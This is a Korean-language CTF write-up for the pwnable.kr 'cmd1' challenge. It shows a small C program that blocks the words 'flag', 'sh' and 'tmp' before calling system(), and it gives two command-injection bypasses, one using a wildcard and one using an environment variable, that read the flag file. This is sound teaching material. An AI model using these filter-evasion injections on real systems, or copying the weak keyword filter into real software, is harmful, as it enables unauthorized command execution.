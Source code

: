 # 문제
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)

---
# 개요
```
cmd1@ubuntu:~$ ls
cmd1  cmd1.c  flag
cmd1@ubuntu:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```
strstr 함수를 사용하여 "flag", "sh", "tmp"를 필터링합니다.
필터링 된 인자는 system 함수를 통해 실행되는데 여기서 Command Injection 취약점이 발생합니다. 여러가지 풀이 방법이 있지만 간단하게 와일드 카드를 사용하여 풀이가 가능합니다.
```
cmd1@ubuntu:~$ ./cmd1 "/bin/cat fla*"
mommy now I get what PATH environment is for :)
```
또한 환경변수를 이용한 방법도 있습니다.
```
cmd1@ubuntu:~$ export secretpack="/bin/cat /home/cmd1/flag"
cmd1@ubuntu:~$ ./cmd1 \${secretpack}
mommy now I get what PATH environment is for :)
cmd1@ubuntu:~$
```
